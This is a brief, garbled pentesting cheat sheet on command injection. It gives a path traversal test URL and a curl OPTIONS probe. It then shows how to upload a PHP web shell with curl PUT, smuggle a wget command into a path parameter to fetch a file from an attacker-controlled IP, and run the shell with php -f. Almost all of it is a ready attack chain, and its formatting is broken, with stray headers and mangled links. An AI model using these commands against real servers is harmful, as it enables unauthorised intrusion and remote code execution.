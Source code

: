 # **Command Injection**

**

## Command Injection

**

##   
File Traverse:  
website.com/file.php[?path=/]  
  
Test HTTP options using curl:  
curl -vX OPTIONS [website]  
  
Upload file using CURL to website with PUT option available  
curl --upload-file shell.php --url

[http://](http://192.168.218.139/test/shell.php)

## x.x.x.x  
  
Transfer file (Try temp directory if not writable)(wget -O tells it where to store):  
?path=/; wget

[http://IPADDRESS:8000/FILENAME.EXTENTION;](http://ipaddress:8000/FILENAME.EXTENTION;)

##   
  
Activate shell file:  
; php -f filelocation.php;
